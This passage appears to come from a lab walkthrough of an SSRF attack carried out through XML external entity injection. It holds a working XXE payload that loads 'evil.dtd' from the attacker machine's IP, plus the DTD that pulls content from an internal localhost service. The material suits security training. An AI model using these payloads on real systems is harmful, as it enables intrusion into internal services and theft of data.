 Command:
```python
python3 convert.py 
```


Once all the IP addresses are converted, look for the internal IPs. In this case, it's 127.0.0.1 and 127.0.0.11


Let's also convert the ports from hex to decimal system:

Commands:
```bash
python3
0x0016
0x22B8
0x9599
0x1F40
```


> The ports corresponding to internal IPs are 8000 and 38297, respectively.

Step 7: Perform an SSRF attack to interact with internal services.

Check the IP address of the attacker machine:

Command:
```bash
ip addr
```



The IP address of the attacker machine is 192.220.76.2 

> [Note] The IP address of the machines is bound to change with every lab start. Kindly make sure to get the correct IP address before moving on to the next steps. Failing to do that would result in failed exploitation attempts.

We will send the following XML snippet to the vulnerable web application:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM "http://192.220.76.2:8080/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```

> [Note] Kindly make sure to replace the IP address in the above payload.


Before sending the above XXE payload, save the following snippet as evil.dtd:
```xml
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "http://localhost:8888">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```
